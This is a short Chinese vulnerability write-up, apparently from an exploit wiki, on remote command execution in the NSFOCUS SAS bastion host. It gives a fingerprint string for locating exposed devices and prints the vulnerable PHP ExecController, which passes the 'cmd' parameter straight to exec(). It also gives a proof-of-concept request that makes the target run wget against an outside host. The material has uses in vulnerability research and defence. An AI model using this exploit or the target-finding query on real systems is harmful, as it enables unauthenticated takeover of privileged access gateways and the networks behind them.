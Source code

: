# 绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞描述

绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8-20230810133806265.png)

漏洞存在于文件 ExecController.php 文件中

![img](/assets/PeiQi-Wiki/img/1691645538909-d812cd3c-58f8-4325-b91e-456dce6b9a3c.png)

```php
<?php
  require_once 'Nsc/Websvc/Response.php';
class ExecController extends Cavy_Controller_Action {

  var $models = 'no';

  public function index() {
    $command = $this->_params['cmd'];
    $ret = 0;
    $output = array();
    exec($command,$output,$ret);
    $result = new StdClass;
    if ($ret != 0) {
      $result->code = Nsc_Websvc_Response::EXEC_ERROR;
      $result->text = "exec error";
    }
    else {
      $result->code = Nsc_Websvc_Response::SUCCESS;
      //			$result->text = implode("\n",$output);
      $result->text = "WEBSVC OK";
    }
    $this->_render(array('result'=>$result),'/websvc/result');
  }
}
?>
```

验证POC

```php
/webconf/Exec/index?cmd=wget%20xxx.xxx.xxx
```

![img](/assets/PeiQi-Wiki/img/1691645555190-0e9d0dbb-97bc-4569-9357-e0bf65c3138d.png)

![img](/assets/PeiQi-Wiki/img/1691645814709-0b0ac94f-1899-4cfb-9751-7037cfecd3ef.png)